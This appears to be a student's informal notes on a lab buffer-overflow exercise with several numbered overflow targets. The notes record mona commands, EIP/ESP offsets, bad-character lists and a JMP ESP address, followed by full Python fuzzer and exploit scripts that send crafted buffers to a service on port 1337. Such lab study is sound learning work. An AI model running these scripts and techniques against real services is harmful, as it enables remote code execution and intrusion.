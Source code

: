 

we overwrite memory with values unexpected to get in control of the machine 

to configure mona

!mona config -set workingfolder c:\mona\%p
!mona findmsp -distance 2400

using the fuzzer.py to know when it will crash 
Fuzzing crashed at 2000 bytes

/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2400 ##creating a payload 

changing exploit.py payload value to the one we just generated 
after running it we get the value 

running !mona findmsp -distance 2400 to see where the crash happened 6F43396E

EIP offset 1978 and ESP 1982

sending exploit.py with retn to BBBB and the offset value to 1978 we get 42424242 as EIP now 
then we try to find the bad chars with mona 

!mona bytearray -b "Bad chars"
# OVERFLOW 1
!mona compare -f C:\mona\oscp\bytearray.bin -a *address* to compare between our list to see what are the bad chars 
now we have our bad chars let's try them 1 by 1 till we get all of them out 
Corruption after 6 bytes 00 07 08 2e 2f a0 a1 
00 07 2e 2f a0 a1
00 07 2e 2f a0 a1
00 07 2e 2f a0 a1
00 07 2e a0 ##our bad chars!!
well buffer overflow is kinda cool ntgl but complicated as fuck 
so let's do the other 9 xdd 

# OVERFLOW 2 
76413176 EIP on crash
EIP 634 ##offset
ESP 462
now let's do a retn BBBB to make sure we got it right 
and it's 42424242 so our values are right time to exploit 
time to check for bad chars
x23 x3c x83 xba

# OVERFLOW 3 
crashed at 1300 bytes so we created 1500 pattern chars with msf 
EIP 35714234
EIP offset is 1274 
ESP offset 1278
now let's run our BBBB rewrite
success 
let's find bad chars
running !mona compare -a esp -f c:\mona\oscp\bytearray.bin we get 
00 11 12 40 41 5F 60 b8 
00 11 40 41 5F 60 b8 b9 
00 11 40 5F 60 B8 B9 ee 
00 11 40 5F B8 B9 ee EF
00 11 40 5F b8 EE EF 
00 11 40 5F B8 EE
Done!!
let's try to get [[Reverse Shells]] on this one 
!mona jmp -r esp -cpb "\x00\x11\x40\x5F\xB8\xEE" to find our jmp 
0x62501203 ##our jmp \x03\x12\x50\x62
and adding padding    padding = "\x90" * 16
and we are root!


# OVERFLOW 4 
crashed on 2100 bytes
EIP 70433570
EIP offset  2026
ESP offset 2030
now BBBB test 
success 
now to bad chars 

\x00\xa9\xcd\xd4

	
# Fuzzer.py
#!/usr/bin/env python3

import socket, time, sys

ip = "10.10.252.204"

port = 1337
timeout = 5
prefix = "OVERFLOW3 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)

# Exploit.py

import socket

ip = "10.10.252.204"
port = 1337

prefix = "OVERFLOW4 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
  
  

  
  
  !mona compare -a esp -f bytearray.bin
  
  # bad chars
  \x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff

  
  



